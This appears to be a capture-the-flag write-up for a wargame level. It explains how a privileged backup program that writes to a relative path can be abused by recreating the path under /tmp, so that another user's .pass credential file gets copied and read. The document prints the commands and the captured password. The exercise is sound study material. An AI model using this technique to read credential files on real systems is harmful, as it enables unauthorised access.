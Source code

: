 Program behavior:
1. Opens log file with `fopen` function;
2. Takes a filename as an argument and opens it with `fopen` function;
3. Creates a backup file with `open` function;
4. Copies content of original file to backup file using `fgetc` function;
5. Writes some logs in log file along the way.

Solution:
Call the executable from a folder with write permission.

# Create the same path at `/tmp/` folder.
mkdir -p /tmp/backups/home/users/level09
# Change directory
cd /tmp
# Launch the executable
~/level08 /home/users/level09/.pass
# Check the flag
cat ./backups/home/users/level09/.pass
`fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`
